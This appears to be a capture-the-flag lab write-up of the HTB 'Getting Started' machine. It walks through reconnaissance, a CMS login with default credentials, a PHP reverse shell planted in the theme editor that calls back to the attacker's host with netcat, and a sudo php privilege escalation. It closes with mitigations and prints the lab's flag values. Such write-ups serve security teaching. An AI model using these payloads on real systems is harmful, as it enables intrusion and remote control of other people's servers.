## Overview

> **Machine:** `Getting Started`  
> **OS:** Linux  
> **Difficulty:** Easy  
> **IP:** `10.129.100.231`


---

## Reconnaissance

First, I run a standard **Nmap scan** to gather general information about the target (open ports, services, versions, OS, etc.).

```text
❯ nmap -Pn -n -sV -sC -O 10.129.100.231
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-11 02:40 -0400
Nmap scan report for 10.129.100.231
Host is up (0.56s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 4c:73:a0:25:f5:fe:81:7b:82:2b:36:49:a5:4d:c8:5e (RSA)
|   256 e1:c0:56:d0:52:04:2f:3c:ac:9a:e7:b1:79:2b:bb:13 (ECDSA)
|_  256 52:31:47:14:0d:c3:8e:15:73:e3:c4:24:a2:3a:12:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Welcome to GetSimple! - gettingstarted
| http-robots.txt: 1 disallowed entry
|_/admin/
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.40 seconds
```

The HTTP title already tells me a lot: the target is running **GetSimple CMS**, and `robots.txt` discloses an `/admin/` path that the site owner tried to keep out of search engine crawlers - a strong hint that this is the admin panel.

To get a fuller picture, I run `gobuster` for directory & file enumeration:

```text
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.htaccess            (Status: 403) [Size: 277]
.hta                 (Status: 403) [Size: 277]
.htpasswd            (Status: 403) [Size: 277]
admin                (Status: 301) [Size: 312] [--> http://10.129.100.231/admin/]
backups              (Status: 301) [Size: 314] [--> http://10.129.100.231/backups/]
data                 (Status: 301) [Size: 311] [--> http://10.129.100.231/data/]
index.php            (Status: 200) [Size: 5485]
plugins              (Status: 301) [Size: 314] [--> http://10.129.100.231/plugins/]
robots.txt           (Status: 200) [Size: 32]
server-status        (Status: 403) [Size: 277]
sitemap.xml          (Status: 200) [Size: 431]
theme                (Status: 301) [Size: 312] [--> http://10.129.100.231/theme/]
Progress: 4750 / 4750 (100.00%)
===============================================================
```

This confirms `/admin` and also surfaces a few more paths worth remembering - `/theme` in particular, since I'll come back to it later.

I check `/index.php`, `/backups`, `/plugins`, `/data`, and `/theme` along with their page source, but none of them reveal anything immediately useful.

Navigating to `/admin` gives me a login page for the GetSimple CMS admin panel.



I try a handful of common credential pairs (`admin:password`, `admin:admin`, etc.) and log in successfully with `admin:admin` - the CMS was still running on its default credentials.



While poking around the dashboard, I notice the **theme editor** lets me directly edit the active theme's PHP template file. Since the site runs on PHP and the editor writes straight to a file that's later served by the web server, I think I can inject a reverse shell payload into the theme, save it, and get it executed.



---

## Foothold

I set up a netcat listener on my machine (`nc -lnvp 9999`) and then paste the following PHP reverse shell payload into the theme editor:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.252 9999 >/tmp/f"); ?>
```

I add the payload to the theme's template and save it.





The save succeeds, so I go back to the theme page and click **Activate**.



But activating the theme doesn't trigger anything on its own - the payload only runs when the underlying PHP file is actually requested, not when the theme is merely selected. Recalling that `gobuster` had already surfaced `/theme` earlier, I figure the template file itself should be directly reachable at `/theme/Innovation/template.php`.Sure enough, requesting `http://10.129.100.231/theme/Innovation/template.php` executes the payload, and I catch a reverse shell on my listener.



I navigate to the user's home directory and read the `user.txt` flag:



```text
user.txt: 7002d65b149b0a4d19132a66feed21d8
```

This **netcat** dump shell isn't stable enough to comfortably continue, so I upgrade it to a fully interactive TTY shell, following the process from my own reference post, **[Shells, TTY, and SSH - A Practical Guide for Offensive Security](https://cyb3rhurr1c4n3.github.io/cyb3rhurr1c4n3-blog/technical-blogs/shells-tty-and-ssh/)**. With a full TTY shell in hand, I move on to privilege escalation to get `root.txt`.



---

## Privilege Escalation

As a common first step for Linux privilege escalation, I run `sudo -l` to check for any command I can run as root without a password, and find that `/usr/bin/php` can be run with full `NOPASSWD` privileges:

```text
(ALL : ALL) NOPASSWD: /usr/bin/php
```



Since `php` is a general-purpose interpreter, running it as root is effectively equivalent to a root shell - I just need to make it spawn one. A quick search for _"privilege escalation ALL=(ALL) NOPASSWD: /usr/bin/php"_ points me to the payload:

```bash
sudo /usr/bin/php -r 'system("/bin/bash");'
```

Running it gives me a root session.



From there, I read `/root/root.txt` to grab the final flag:

```text
root.txt: f1fba6e9f71efb2630e6e34da6387842
```

Done!

---

## Flags

```text
user.txt: 7002d65b149b0a4d19132a66feed21d8
root.txt: f1fba6e9f71efb2630e6e34da6387842
```

---

## Lessons Learned

- **Default credentials left unchanged:** the GetSimple CMS admin panel was still using `admin:admin`. Default credentials are one of the most common - and most avoidable - initial access vectors in real engagements, not just CTF boxes.
- **Arbitrary code execution via the theme editor:** GetSimple CMS's theme/template editor (`admin/theme-edit.php`) writes attacker-supplied content directly into a PHP file inside a web-accessible directory, without validating that the content is a legitimate template. This is the same vulnerability class tracked as **CVE-2019-11231**, which affects GetSimple CMS 3.3.15 and earlier. Any authenticated feature that lets a user write PHP content to a path the web server will later execute is effectively an RCE primitive.
- **Predictable, indexable file paths:** `gobuster` revealed the `/theme` directory ahead of time, which is what let me locate and directly request the malicious `template.php` file once the "Activate" button in the UI didn't trigger execution by itself.
- **Interpreters in the sudoers file:** granting `NOPASSWD` sudo rights to `/usr/bin/php` (or any general-purpose interpreter - `python`, `perl`, `node`, etc.) is functionally the same as granting unrestricted root access, since these binaries can trivially spawn a shell. This exact pattern is cataloged for dozens of binaries on [GTFOBins](https://gtfobins.github.io/), and is one of the first things worth checking after `sudo -l`.

---

## Mitigations

1. **Change default credentials immediately after installing any CMS or application**, and enforce this as part of the deployment checklist rather than leaving it to the admin's memory.
2. **Keep GetSimple CMS (or any CMS) patched.** Versions after 3.3.15/3.3.16 address the theme-editor code execution issue; more broadly, any admin feature that writes files to a web-accessible path should validate content and restrict file extensions server-side.
3. **Never grant sudo rights to general-purpose interpreters or shells.** If a specific task needs elevated privileges, wrap it in a dedicated, root-owned script with no user-writable path, rather than exposing `php`, `python`, or similar binaries directly in the sudoers file.
4. **Restrict or remove admin-facing directory indexing/predictability** where possible, and don't rely on obscurity (like a non-triggering "Activate" button) as a security control - if a file is reachable, it will eventually be found.
5. **Audit sudoers configuration regularly** against a reference like GTFOBins to catch binaries that are exploitable for shell access before an attacker does.

---

## References

- **Module:** [HTB Academy - Getting Started](https://academy.hackthebox.com/course/preview/getting-started)
- **CVE-2019-11231 - GetSimple CMS <= 3.3.15 Unauthenticated RCE:** https://www.exploit-db.com/exploits/46880
- **GTFOBins - php:** https://gtfobins.github.io/gtfobins/php/
- **Shells, TTY, and SSH - A Practical Guide for Offensive Security - cyb3rhurr1c4n3 (myself):** https://cyb3rhurr1c4n3.github.io/cyb3rhurr1c4n3-blog/technical-blogs/shells-tty-and-ssh/
